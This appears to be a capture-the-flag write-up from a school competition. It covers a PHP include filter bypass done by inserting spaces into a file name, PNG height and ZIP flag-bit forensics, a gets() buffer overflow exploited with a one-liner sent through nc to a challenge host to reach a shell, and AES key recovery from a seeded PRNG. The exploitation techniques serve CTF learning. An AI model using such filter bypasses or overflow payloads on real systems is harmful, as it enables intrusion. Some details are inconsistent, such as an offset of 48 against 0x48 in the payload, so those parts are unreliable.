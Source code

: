 # Web

## **bypass\_filter**

If open main page, there is a page list including `a.gif`, `bypass.php`, `flag.php`.  
In `a.gif`, it opens gif file but nothing in `flag.php`.  

There is a form in `bypass.php`.
If you put `flag.php` in form, it says "nope~.~!"

---
```php
<?php

if (isset($_GET['test'])) {
    if (preg_match("/^.*(flag|etc|test|passwd|group|shadow|php|ini|sql|index).*$/im", $_GET['test'])) {
        $message = "nope ~.~! 안전하지 않은 파일 요청입니다.";
    } else if ($_GET['test'] === "phpinfo") {
        ob_start();
        phpinfo();
        $phpinfo = ob_get_clean();
    } else {
        include "./" . str_replace(" ", "", $_GET['test'] . ".php");
    }
}
?>
```
It detects specific strings by `preg_match`, but this code replace blank (space) to empty.  
So, if send "fl ag", you can get the flag  

`FLAG{lev3l_99_filt3r_byp4ss}`


# Forensic
## **건덕이는 포렌식고수**
`Secret.png` file is given.  
If you extract hex with 010 Editor, you can see hint at the end of binary.  
> I recommend increasing the vertical size

If you increase height in `ihdr` region, you can see Flag in the picture.  

`FLAG{1t_is_a_h!dd6n_sec7et_!nMYsch00l}`


## **못 찾겠지? 못찾겠쥐**
a file that has docx extension specifier is given.  
But it cannot be open with error, so if you open it with 010 editor, it says this file is PK format.  

If you change hex `09 08` to `08 08` in Flags Bit region to decrypt PK file.


# System
## **축제용사건국이의 먹거리탈취작전**
```python
void get_shell() {
    char* shell= "/bin/sh";
    char* args[2];

    args[0] = shell;
    args[1] = NULL;

    execve("/bin/sh", args, NULL);
}

void exec_func() {
    char buf[0x30];
    int key = 0x0badf00d;
    printf("번호표를 보여주세요: ");
    gets(buf);

    if (key == 0xf1e1d00d) {
        printf("Nice Try!");
    }

    else {
        printf("Access Denied!");
    }
}
```
Using `gets`, buffer overflow can be occured.  
The offset between return address and buf address is 48.  

```python
(python3 -c "import sys; sys.stdout.buffer.write(b'A'*0x48+b'\xa8\x12\x40\x00\x00\x00')";cat) | nc.rbp.rip 9006
```

# Crypto
## **쿠가 가져간 열쇠**
```python
secret_key = bytes([rnd.randint(0, 2**8) for _ in range(32)])


with open('flag.txt', 'rb') as file:
    data = file.read()
secret_info = data

def result(info, secret_key):
    encryptor = AAEESS.new(secret_key, AAEESS.MODE_ECB)
    encrypted = encryptor.encrypt(Padding.pad(info, AAEESS.block_size))
    with open('result.txt', 'w') as file:
        file.write(encrypted.hex())

result(secret_info, secret_key)
```
It is simple AES chall.
```python
import importlib
import random as rnd

AAEESS = importlib.import_module('Crypto.Cipher.AES')
Padding = importlib.import_module('Crypto.Util.Padding')

rnd.seed('''

@@@

''')
secret_key = bytes([rnd.randint(0, 2**8) for _ in range(32)])

reselt = "6b8204ab9f4924b96ff2eaa4c3c7e85fd6151b34f2c558434c4f610d7a4c066e"

from Crypto.Cipher import AES
from Crypto.Util import Padding

encrypted_hex = "6b8204ab9f4924b96ff2eaa4c3c7e85fd6151b34f2c558434c4f610d7a4c066e"

encrypted = bytes.fromhex(encrypted_hex)

decryptor = AES.new(secret_key, AES.MODE_ECB)
decrypted = Padding.unpad(decryptor.decrypt(encrypted), AES.block_size)

print("Decrypted data:", decrypted.decode())
```
`FLAG{H1de_The_Key_0f_A3S_AES}`
